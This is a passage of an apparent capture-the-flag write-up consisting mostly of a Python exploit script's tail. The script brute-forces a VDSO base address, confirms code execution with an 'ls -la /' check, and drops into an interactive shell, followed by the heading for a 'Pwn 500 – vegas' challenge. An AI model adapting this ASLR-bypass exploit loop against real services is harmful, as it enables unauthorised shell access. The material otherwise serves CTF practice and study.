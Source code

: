 ```
    sl('ls -la /')
    r = ru('pwned')
    if r != 'pwned':
        raise Exception('not receiving')
    return
def local_get_mapping_address(name):
    procmaps = open('/proc/{0}/maps'.format(io.pid), 'r')
    mappings = procmaps.read()
    procmaps.close()
    t = [c.split(' ') for c in mappings.split('n')]
    libinfo = []
    for l in t:
        k = []
        for i in xrange(len(l)):
            if l[i] == '': continue
            k.append(l[i])
        libinfo.append(k)
    for lib in libinfo:
        if len(lib) == 6:
            if name in lib[5]:
                return int(lib[0].split('-')[0], 16)
    return 0
def pwn():
    global io
    VDSO_RANGE = range(0xf76d0000, 0xf77f0000, 0x1000)
    raw_input()
    if 0:
        #do_pwn(vdso)
        pass
    else:
        count = 0
        while 1:
            io = makeio()
            print "Pwning..."
            vdso = random.choice(VDSO_RANGE)
            info("brute vdso = " + hex(vdso))
            try:
                do_pwn(vdso)
            except:
                io.close()
                count += 1
                info("failed {}".format(count))
                continue
            io.interactive()
            break
    return
if __name__ == '__main__':
    pwn()
```

**Pwn 500 – vegas**
